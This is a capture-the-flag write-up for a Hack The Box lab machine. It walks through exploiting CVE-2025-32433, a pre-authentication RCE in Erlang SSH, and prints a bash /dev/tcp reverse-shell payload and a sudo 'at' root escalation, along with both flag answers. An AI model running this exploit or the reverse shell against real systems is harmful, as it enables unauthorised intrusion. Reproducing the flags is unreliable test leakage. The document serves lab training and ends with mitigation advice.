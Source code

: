 # PowerLang - CTF Write-Up

## Challenge Overview

**Challenge Name:** PowerLang  
**Category:** Fullpwn  
**Difficulty:** very easy  

**Flags:**
- User Flag: `HTB{erlang_ssh_is_4_th1ng?}`
- Root Flag: `HTB{4_t1m3ly_sud0_rul3}`

## Summary

This challenge involves exploiting CVE-2025-32433, a critical vulnerability in Erlang/OTP SSH implementation that allows pre-authentication remote code execution. After gaining initial access as `it-operator`, privilege escalation is achieved through sudo permissions on the `at` command.

## Reconnaissance

### Port Scanning
```bash
nmap -sC -sV -p- 10.129.212.153
```

**Results:**
- Port 53: DNS
- Port 80: HTTP (powerlang.htb)
- Port 2222: SSH (Erlang/5.2.9)

### Service Enumeration

#### HTTP Service (Port 80)
- Add `10.129.212.153 powerlang.htb` to `/etc/hosts`
- Website appears to be a React/Vite application
- No obvious vulnerabilities found in web application

#### SSH Service (Port 2222)
```bash
nc 10.129.212.153 2222
```
**Banner:** `SSH-2.0-Erlang/5.2.9`

This version is vulnerable to **CVE-2025-32433**.

## Vulnerability Analysis

### CVE-2025-32433 - Erlang/OTP SSH Pre-Authentication RCE

**Affected Versions:**
- OTP-27.3.2 and earlier
- OTP-26.2.5.10 and earlier  
- OTP-25.3.2.19 and earlier

**Technical Details:**
- SSH message numbers 80+ are reserved for post-authentication
- Vulnerable servers don't enforce this restriction
- Allows pre-authentication command execution
- Commands must be written in Erlang syntax with trailing `.`

## Exploitation

### Step 1: Download and Setup Exploit

Clone the proven working exploit repository by omer-efe-curkus:
```bash
git clone https://github.com/omer-efe-curkus/CVE-2025-32433-Erlang-OTP-SSH-RCE-PoC.git
cd CVE-2025-32433-Erlang-OTP-SSH-RCE-PoC
```

**Note:** This specific PoC was chosen because it successfully implements the reverse shell functionality using the `/dev/tcp/` method in bash, which provides a reliable interactive connection.

### Step 2: Test Vulnerability
```bash
python3 cve-2025-32433.py 10.129.212.153 -p 2222 --check
```

### Step 3: Gain Initial Access

Start a netcat listener:
```bash
nc -lvp 4444
```

Execute the exploit to get a reverse shell:
```bash
python3 cve-2025-32433.py 10.129.212.153 -p 2222 --shell --lhost 10.10.14.29 --lport 4444
```

**Payload used:** `os:cmd("bash -c 'exec 5<>/dev/tcp/10.10.14.29/4444; cat <&5 | while read line; do $line 2>&5 >&5; done'").`

### Step 4: Shell Upgrade

Once you receive the connection, upgrade to a proper TTY:
```bash
script /dev/null -c bash
```

### Step 5: User Flag

The user flag is located in the home directory:
```bash
whoami  # it-operator
cat /home/it-operator/user.txt
```
**User Flag:** `HTB{erlang_ssh_is_4_th1ng?}`

## Privilege Escalation

### Step 1: Check Sudo Privileges
```bash
sudo -l
```

**Output:**
```
User it-operator may run the following commands on powerlang:
    (ALL) NOPASSWD: /usr/bin/at
```

### Step 2: Enumerate Root Directory

Use the `at` command to list contents of `/root` as root:
```bash
echo "ls -la /root > /tmp/root_listing.txt && chmod 644 /tmp/root_listing.txt" | sudo at now
```

Wait a few seconds, then check:
```bash
cat /tmp/root_listing.txt
```

**Results:**
```
total 32
drwx------  5 root root 4096 Apr 30 14:05 .
drwxr-xr-x 23 root root 4096 Apr 30 14:05 ..
lrwxrwxrwx  1 root root    9 Mar 31 17:22 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr 22  2024 .bashrc
drwx------  2 root root 4096 Apr 30 14:05 .cache
drwxr-xr-x  3 root root 4096 Apr 30 14:05 .local
-rw-r--r--  1 root root  161 Apr 22  2024 .profile
-rw-r-----  1 root root   24 Apr 29 16:49 root.txt
drwx------  2 root root 4096 Apr 30 14:05 .ssh
```

### Step 3: Extract Root Flag

Use `at` to copy the root flag to a readable location:
```bash
echo "cp /root/root.txt /tmp/root_flag.txt && chmod 644 /tmp/root_flag.txt" | sudo at now
```

Wait a few seconds, then read the flag:
```bash
cat /tmp/root_flag.txt
```
**Root Flag:** `HTB{4_t1m3ly_sud0_rul3}`

## Technical Concepts

1. **CVE-2025-32433:** Pre-authentication RCE in Erlang SSH servers
2. **Erlang Command Syntax:** Commands must end with `.` (e.g., `os:cmd("command").`)
3. **SSH Protocol:** Message numbers 80+ should be post-authentication only
4. **Privilege Escalation:** `at` command can schedule tasks to run as root

## Security Lessons

1. **Version Management:** Keep SSH implementations updated
2. **Sudo Configuration:** Be cautious with NOPASSWD rules for scheduling commands
3. **Network Segmentation:** Limit exposure of vulnerable services
4. **Monitoring:** Watch for unusual SSH connection patterns

## Tools Used

- **nmap:** Port scanning and service enumeration
- **[CVE-2025-32433 PoC by omer-efe-curkus](https://github.com/omer-efe-curkus/CVE-2025-32433-Erlang-OTP-SSH-RCE-PoC):** Remote code execution exploit
- **netcat:** Reverse shell listener
- **at command:** Privilege escalation via job scheduling

## Mitigation Recommendations

1. **Update Erlang/OTP:** Upgrade to version 5.2.10 or later
2. **Firewall Rules:** Restrict access to SSH services
3. **Sudo Hardening:** Review and restrict sudo permissions
4. **Monitoring:** Implement SSH connection logging and anomaly detection

## Timeline

1. **Reconnaissance:** 5-10 minutes
2. **Vulnerability Identification:** 2-3 minutes  
3. **Initial Exploitation:** 5-10 minutes
4. **Privilege Escalation:** 10-15 minutes
5. **Flag Extraction:** 2-3 minutes

**Total Time:** ~30-40 minutes

## Write-Up Credit: [binchickens69](https://ctf.hackthebox.com/user/profile/605069)